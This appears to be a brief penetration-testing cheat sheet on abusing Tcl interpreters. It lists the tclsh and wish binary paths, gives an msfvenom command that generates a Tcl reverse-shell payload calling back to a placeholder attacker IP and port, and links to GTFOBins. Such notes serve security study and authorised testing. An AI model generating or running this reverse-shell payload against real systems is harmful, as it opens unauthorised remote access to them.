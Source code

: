 # Manual

## 01 - Common Files

```
/usr/bin/tclsh
/usr/bin/wish
```

## 02 - Generate Payloads

```
$ msfvenom -p cmd/unix/reverse_tclsh lhost=<IP> lport=<PORT>
```

---
## References

### GTFOBins

- [GTFOBins: tclsh](https://gtfobins.github.io/gtfobins/tclsh/)